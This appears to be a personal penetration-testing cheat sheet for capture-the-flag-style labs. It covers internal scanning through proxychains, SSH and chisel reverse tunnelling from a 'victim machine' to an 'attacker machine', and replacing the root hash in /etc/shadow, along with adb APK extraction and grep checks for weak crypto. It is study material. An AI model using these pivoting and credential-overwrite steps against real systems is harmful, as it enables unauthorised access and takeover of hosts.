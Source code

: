 - To scan the internal network with nmap,use

      proxychains nmap -sT 127.0.0.1

- To local port forward

      sudo ssh -l id_rsa -L {port you want to forwrd through}:127.0.0.1:{remote port discovered}
      ssh -N -L {local port(your machine)}:127.0.0.1:{remote port(victim machine)} rosa@chemistry.htb # No verbose output

-------------------------------

### Removing `\r` in `exploitdb` scripts

    sed -i -e 's/\r$//' <script's name>

--------------------------------

### Port Forwarding with chisel

- Set up a server with `chisel server -p <port> --reverse` on the attacker machine
- On the client's machine, use `./chisel client [chisel server's ip]:[chisel's server port} R:[port you want it to tunnel through on the server's machine]:127.0.0.1:[internal port running a service on the victim's machine]`

---------------------------------

### To replace the root hash by generating a new one

- Use `openssl passwd -6 (password)`
- Clear the root hash in `/etc/shadow` and replace it with your hash, notice the highlighted part

  ![image](https://github.com/user-attachments/assets/8270951c-d313-4bf8-9f28-4ac5a58db988)

- Format-:```root:<hash>:18195:0:99999:7:::```
----------------------------------

### Installing adb-tools on Kali Linux[Ubuntu/Debian]

    sudo apt-get install android-sdk-platform-tools


### ADB-Tools

- Use `adb devices` to see devices connected
- Use `adb shell pm path <package name>` to get the apk package name
- Use `adb pull <package name>` to download apk locally

### STATIC ANALYSIS

- Use this grep examples to check for  weak cryptography e.g exposed private key

          grep -r "SecretKeySpec" *
      
          grep -rli "aes" *
      